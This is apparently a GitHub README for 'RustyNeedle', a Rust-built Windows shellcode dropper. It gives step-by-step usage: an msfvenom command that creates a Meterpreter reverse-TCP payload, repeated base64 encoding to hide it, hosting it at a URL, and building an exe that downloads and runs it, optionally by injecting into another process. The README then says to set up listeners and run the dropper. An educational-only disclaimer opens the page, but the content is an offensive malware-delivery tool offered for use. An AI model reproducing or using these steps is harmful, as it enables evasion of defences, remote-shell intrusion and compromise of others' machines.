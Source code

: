 # RustyNeedle

**THIS CODE IS FOR EDUCATIONAL PURPOSES ONLY. I take no responsibility if you decide to do crimes with this code.**

A simple dropper for shellcode that leverages the power of...base64 encoding??

No seriously. And it works. Here's how:

## Usage

1. Create your shellcode however you like, be it with `msfvenom` or other tools. Export the raw shellcode file.

2. Use the encode.py script provided in this repository to create an encoded version of the shellcode. 

```bash
python3 encode.py [SHELLCODE_FILE] [B64_ITERATIONS] [OUT_FILE]
```

### Arguments

* `SHELLCODE_FILE`: raw shellcode file to encode
* `B64_ITERATIONS`: # of times to base64-encode the shellcode
* `OUT_FILE`: Resulting text file of the encoded shellcode. **NOTE:** this will be many times larger than the source!

### Alternative usage

If you don't want to use the script, you can also encode raw shellcode from `msfvenom`. It would go something like this:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=$LHOST LPORT=$LPORT -f raw | base64 -w 0 > note.txt
# Pipe to base64 -w 0 as many times as you want to iterate the encoding
```
3. Edit the source code in `src/main.rs` to reflect the `URL` where the encoded shellcode will be hosted. Make sure `B64_TTERATIONS` matches what you created with `encode.py`. If you wish to use remote injection, change the `PROCESS_NAME` value as well.

4. Run `cargo build --target x86_64-pc-windows-gnu --release`. If building on Linux for Windows, make sure you've added the Windows target triple with `rustup target add x86_64-pc-windows-gnu`.

5. Copy the resulting exe in `target/x86_64-pc-windows-gnu/release/rustyneedle.exe` wherever you like.

6. Set up any listeners, then execute the dropper!

